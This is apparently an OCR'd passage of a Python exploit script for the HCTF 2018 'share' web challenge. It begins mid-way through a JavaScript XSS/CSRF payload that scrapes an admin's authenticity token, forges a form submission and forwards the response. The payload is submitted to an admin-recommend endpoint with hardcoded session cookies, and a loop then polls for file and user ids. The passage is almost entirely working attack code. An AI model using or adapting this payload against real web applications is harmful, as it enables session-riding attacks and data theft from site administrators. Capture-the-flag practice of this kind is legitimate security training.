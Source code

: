 ```python
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.setRequestHeader("Referer", "http://share.2018.hctf.io/home/addtest");
    xhr.setRequestHeader("Origin", "http://share.2018.hctf.io");
    xhr.onload=function(evt){
      var data = evt.target.responseText;
      send(data);
    } 
    xhr.send("utf8=%E2%9C%93&authenticity_token="+authenticity_token+"&uid={{uid}}}&fid={{fid}}&commit=submit");
}
function gettoken(){
    var t = new XMLHttpRequest;
    t.open("GET", "/home/addtest", !0),
    t.setRequestHeader("Content-type", "text/plain"),
    t.onreadystatechange = function() {
        4 == t.readyState && t.status
    },
    t.onload=function(evt){
      var data = evt.target.responseText;
      regex = /<input type="hidden" name="authenticity_token" value="(.+)?"/g;
      submitRequest(regex.exec(data)[1]);
    }
    t.send();
}
gettoken();</script>

"""
headers={
	"Cookie": "_ga=GA1.2.1234049971.1541560268; _gid=GA1.2.395925356.1541764703; _hctf_session=IDl7oRVicLrzfQVGJ32JMMAL%2FkFQRZIqFGC4Az6xEzV2PW%2FG5JHNkaPTCL8McBALbeLexyWC9ltWt%2FU0XAbxnEihvGIQnvvZagnW%2F1I37tAXwbmKG9XUlOp2tkeXTNfVYIIhhzQGiFbfUFFhf2n%2BGRrcw9eu7Tnyn89bsI4fZCvSYgRrZCJJaZGJ%2BaDH8sFoaB1n1spPkQ7%2BHZoCdFdGN9PLPKWv9It3G5UL--FtVXtYfT0mQLejyc--cPeuwvnr0YSug5Ie0XwZCA%3D%3D"
}
def sendshi(uid,fid):

	headers={
		"Cookie": "_ga=GA1.2.1234049971.1541560268; _gid=GA1.2.395925356.1541764703; _hctf_session=Zt95n%2BqsePGzFV500lXzBLPBbtLVXQNhqypxEw%2Bw%2BrP9Pko9k%2B9jcXuB15FZ27ahSD18NhwxMn2dU7vT9U4GUy%2FIK1Ph2XxeYXNImY36jCqhjYfAlmzIy7hmBkU4MUxC9Y54%2FYCY9s6NOYACi1ZOeXBUmIlw8f1d6TyKQBmn4pRbQkiSRWRRFezqPS8iKpZ%2Bl4B7ZLnwZPky7NC%2BvUTGk5YjTpMZIAdITA88--WH67dwY%2FiXpMn013--hYBC7B4fWamLvU9%2BxFJCAw%3D%3D"
		}
	
	url="http://share.2018.hctf.io/recommend/to_admin"
	
	data={
	"utf8":"%E2%9C%93",
	"authenticity_token":"sK5IwUnkg2m2dVlQHb3DH4/XRQnHlz2BFWz7fEFSYSFhRjtL3cqWBJLd8+qrKwRzSe+4+nQ/lt8NlACosshm9g==",
	"context":payload.replace("{{uid}}",uid).replace("{{fid}}",fid),
	"url":"",
	"commit":"submit"
	}
	r = requests.post(url,data=data,headers=headers,timeout=3)
	print r.status_code

url="http://share.2018.hctf.io/home/Alphatest"
fid=0
uid=0

while(1):
	try:
		r=requests.get(url,headers=headers,timeout=3)
		pattern = re.compile(r'file number:(\d+) your uid: (\d+)')
```